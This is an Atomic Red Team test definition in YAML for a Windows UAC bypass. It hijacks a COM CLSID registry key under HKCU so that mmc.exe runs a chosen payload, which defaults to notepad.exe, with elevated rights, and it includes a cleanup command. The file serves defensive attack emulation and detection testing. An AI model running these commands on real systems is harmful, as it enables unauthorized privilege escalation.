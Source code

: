 atomic-red-team/tree/master/atomics/T1548.002- name: UAC Bypass via MMC CLSID Hijack
  auto_generated_guid: 2c413a63-df90-4fd4-b91f-487db68e1905
  description: |
    Hijacks a COM CLSID object under HKCU to gain elevated execution via mmc.exe.
  supported_platforms:
    - windows
  input_arguments:
    payload_path:
      description: Path to the payload executable to run as elevated.
      type: path
      default: C:\Windows\System32\notepad.exe
  executor:
    command: |
      reg add "HKCU\Software\Classes\CLSID\{3E5FC7F9-9A51-4367-9063-A120244FBEC7}\LocalServer32" /d "#{payload_path}" /f
      timeout /t 3
      mmc.exe
    cleanup_command: |
      reg delete "HKCU\Software\Classes\CLSID\{3E5FC7F9-9A51-4367-9063-A120244FBEC7}" /f
    name: command_prompt

